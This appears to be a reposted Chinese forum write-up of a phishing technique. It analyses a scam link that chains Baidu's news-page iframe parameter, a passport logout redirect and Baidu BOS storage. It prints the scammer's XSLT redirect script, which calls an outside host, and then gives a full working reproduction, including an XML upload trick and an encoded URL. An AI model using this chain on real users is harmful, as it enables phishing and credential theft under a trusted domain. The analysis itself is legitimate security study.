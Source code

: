 - **场景介绍**
骗子给了一个网站诱导访问，链接很长，看开头是百度的官方链接，`https://m.baidu.com/?from=ddcai#iact=wiseindex/tabs/news/activity/newsdetail`  所以安全意识不强的肯定以为是安全的网站，然后点进去后就中招了

- **名词解释**
这种漏洞允许攻击者构造一个看似合法的URL（例如 `https://a.com/url=https://b.com` ），但实际上会显示来自另一个不受信任的网站（如 `https://b.com` ）的内容，而用户的浏览器地址栏中显示的仍然是原网站的URL (`https://a.com` )。

- 攻击者可以利用这种漏洞来实施钓鱼攻击，让用户相信他们正在访问一个可信网站，而实际上他们正在与一个恶意网站交互。

- **漏洞的影响**
- 钓鱼攻击：攻击者可以创建看似可信的URL，但实际上这些URL会重定向到钓鱼网站，这些网站可能会窃取用户的敏感信息，如密码和个人数据。
- 安全绕过：用户可能会被重定向去下载恶意软件或其他有害内容，却误以为这些内容来自可信的来源。
个人分析
- 骗子链接如下

[https://m.baidu.com/?from=ddcai#iact=wiseindex/tabs/news/activity/newsdetail={“linkData”:{“name”:“iframe/mib-iframe”,“url”:“https://passport.baidu.com/?logout=&aid=7&u=https://data5678.bj.bcebos.com/16556/mc?data=kG1e6hRQytb7Uk2B6sXrCdzDEo5eN9ta6Xu4YWzI4deXwu3aG02sNOw5-QYUjq7F”}} 45](https://m.baidu.com/?from=ddcai#iact=wiseindex/tabs/news/activity/newsdetail=%7B%22linkData%22:%7B%22name%22:%22iframe/mib-iframe%22,%22url%22:%22https://passport.baidu.com/?logout=&aid=7&u=https://data5678.bj.bcebos.com/16556/mc?data=kG1e6hRQytb7Uk2B6sXrCdzDEo5eN9ta6Xu4YWzI4deXwu3aG02sNOw5-QYUjq7F%22%7D%7D)

```
{
    "linkData": {
        "name": "iframe/mib-iframe",
        "url": "https://passport.baidu.com/?logout=&aid=7&u=https://data5678.bj.bcebos.com/16556/mc?data=kG1e6hRQytb7Uk2B6sXrCdzDEo5eN9ta6Xu4YWzI4deXwu3aG02sNOw5-QYUjq7F"
    }
}
```
> 这个应该是百度新闻（百家号）的一个页面，原本应该是百度引用自己家网站其他页面的信息所用。

> 页面中iframe链接被替换成了骗子自己的网站（现在钓鱼网站已被删除，现在显示404）。

- linkData中的url

[https://passport.baidu.com/?logout=&aid=7&u=https://data5678.bj.bcebos.com/16556/mc?data=kG1e6hRQytb7Uk2B6sXrCdzDEo5eN9ta6Xu4YWzI4deXwu3aG02sNOw5-QYUjq7F 17](https://passport.baidu.com/?logout=&aid=7&u=https://data5678.bj.bcebos.com/16556/mc?data=kG1e6hRQytb7Uk2B6sXrCdzDEo5eN9ta6Xu4YWzI4deXwu3aG02sNOw5-QYUjq7F)

- 这个应该是百度的退出链接，退出登录后跳转到 https://data5678.bj.bcebos.com/ 这个域名（后面带的data参数不重要，后来发现是骗子用来识别从哪里跳转过来然后给什么地址的参数）。

- 尝试替换其他域名均跳转到 `baidu.com` 百度首页，这个域名其实是百度云对象存储BOS的域，在百度自家白名单内。

- 页面内容

```
<?xml version="1.0" encoding="utf-8" standalone="yes"?>
<xsl:stylesheet version="1.0" xmlns:xsl="http://www.w3.org/1999/XSL/Transform" xmlns="http://www.w3.org/1999/xhtml">
    <xsl:template match="/">
        <html>
            <head>
                <title>...</title>
                <meta content="always" name="referrer"/>
            </head>
            <body>
                <script><![CDATA[
                    document.addEventListener("DOMContentLoaded", function() {
                        processData();
                    });

                    function processData() {
                        var data = decodeURIComponent(window.location.search.substr(1)); // 解码URL参数
                        // 只在调用后端接口时在sbm后追加/time
                        var apiEndpoint = 'https://book.muzhix.cn/rpa.php';
                        data = data.split('data=')[1];
                        var xhr = new XMLHttpRequest();
                        xhr.open('GET', apiEndpoint + '?data=' + data, true);
                        xhr.onreadystatechange = function () {
                            if (xhr.readyState === XMLHttpRequest.DONE && xhr.status === 200) {
                                var responseData = JSON.parse(xhr.responseText);
                                window.location.href = responseData.data;
                            }
                        };
                        xhr.send();
                    }
                ]]></script>
            </body>
        </html>
    </xsl:template>
</xsl:stylesheet>

```
- 看不太懂前后的xml，丢给AI解释。
```
这个 XSLT 样式表是用来将 XML 输入转换成 HTML 页面的。
页面中包含 JavaScript 代码，用于处理 URL 参数并使用 AJAX 向服务器端脚本发送请求。
```

- 最后是用xhr请求数据，拼接链接 window.location.href 替换掉iframe的链接。
实现内容的替换。

- 漏洞复现
- 注册百度云对象存储BOS。

- 新建存储桶，地域随便，读写权限为公共读。
创建的北京节点一直上传失败，只能换一个广州的了，

- 修改代码，其他不要直接替换链接

```
<html>
    <head>
        <title>...</title>
        <meta content="always" name="referrer"/>
    </head>
    <body>
        <script>
            document.addEventListener("DOMContentLoaded", function() {
                processData();
            });

            function processData() {
                var url = 'https://linux.do/u/k452b';
                window.location.href = url;
            }
        </script>
    </body>
</html>

```
- 上传后，发现死活无法访问只能下载，抓包查看响应头被加上了 `Content-Disposition:'attachment=filename;` 所以只能下载。

遂找到 `储存桶设置 – 配置管理 – 静态网站托管` 打开，但也失败，始终是下载。

![转载](https://linux.do/uploads/default/original/3X/0/f/0fb65f0f4b9aac6e9b276e7389858e7816cf5d1f.png)

打开文档阅读说明如下：只要是以官方域访问html的，均为下载形式。

![转载](https://linux.do/uploads/default/original/3X/4/c/4c8d40b54b3019e525d8a7566b7fe157963eb80d.png)

- 重新抓包骗子的网页，发现`Content-Type: text/xml`，难道格式是xml？也难怪前后都是xml标签。
- 重新整，修改代码后，把格式改为xml重新上传，打开百度云提供的域名成功跳转到 `https://linux.do/u/k452b`
```
<?xml version="1.0" encoding="utf-8" standalone="yes"?>
<xsl:stylesheet version="1.0" xmlns:xsl="http://www.w3.org/1999/XSL/Transform" xmlns="http://www.w3.org/1999/xhtml">
    <xsl:template match="/">
        <html>
            <head>
                <title>...</title>
                <meta content="always" name="referrer"/>
            </head>
            <body>
                <script><![CDATA[
                    document.addEventListener("DOMContentLoaded", function() {
                        processData();
                    });

                    function processData() {
                        var url = 'https://linux.do/u/k452b';
                        window.location.href = url
                    }
                ]]></script>
            </body>
        </html>
    </xsl:template>
</xsl:stylesheet>

```
- 重新整理拼接url，访问后iframe中提示linux.do拒绝了我们的请求。
![转载](https://linux.do/uploads/default/original/3X/f/2/f23af41551aa21e213474ff404cc944d335600fc.png)

- 抓包看是同源策略导致无法显示，换一个没有同源策略的网站后成功显示网站。

![转载](https://linux.do/uploads/default/original/3X/b/a/baf3ee1162f024311f93b5a8140f6cb363f7714e.png)
- 域名不变，iframe框架内容被替换。

![转载](https://linux.do/uploads/default/original/3X/7/2/726fc1a53cba75bd7941968bef71ddb20d2d5996.jpeg)


![转载](https://linux.do/uploads/default/original/3X/9/e/9e7bfe50ad803f19f4f4e369aed74f2e37e5c42a.jpeg)

- 完整链接
 url编码后

[https://m.baidu.com/?from=ddcai#iact=wiseindex/tabs/news/activity/newsdetail=%7B%2522linkData%2522%253A%7B%2522name%2522%253A%2522iframe%252Fmib-iframe%2522%252C%2522url%2522%253A%2522https%253A%252F%252Fpassport.baidu.com%252F%253Flogout%253D%2526aid%253D7%2526u%253Dhttps%253A%252F%252Flinuxdo.gz.bcebos.com%252Flinuxdo.xml%2522%7D%7D 86](https://m.baidu.com/?from=ddcai#iact=wiseindex/tabs/news/activity/newsdetail=%7B%2522linkData%2522%253A%7B%2522name%2522%253A%2522iframe%252Fmib-iframe%2522%252C%2522url%2522%253A%2522https%253A%252F%252Fpassport.baidu.com%252F%253Flogout%253D%2526aid%253D7%2526u%253Dhttps%253A%252F%252Flinuxdo.gz.bcebos.com%252Flinuxdo.xml%2522%7D%7D)

- 总结
这个链接利用了百度内部的一些机制，如 iframe 的加载方式和 URL 参数的处理。

绕过iframe域名白名单

攻击者找到了一种方法，即使用百度自己的域名（如百度云对象存储 BOS 的域名 `bj.bcebos.com` 或 `gz.bcebos.com`）来加载恶意内容。
由于这些域名属于百度内部，攻击者通过这些域名上传恶意内容，从而绕过了白名单机制。
在百度云对象储存BOS中

攻击者发现了通过上传 XML 文件绕过HTML文件的限制，XML 文件被浏览器解析为HTML网页并执行其中的JS代码。
这种方法利用了浏览器对 XML 的默认处理方式，即作为文本类型解析，而不是强制下载。




**本文转自 https://linux.do/t/topic/168244**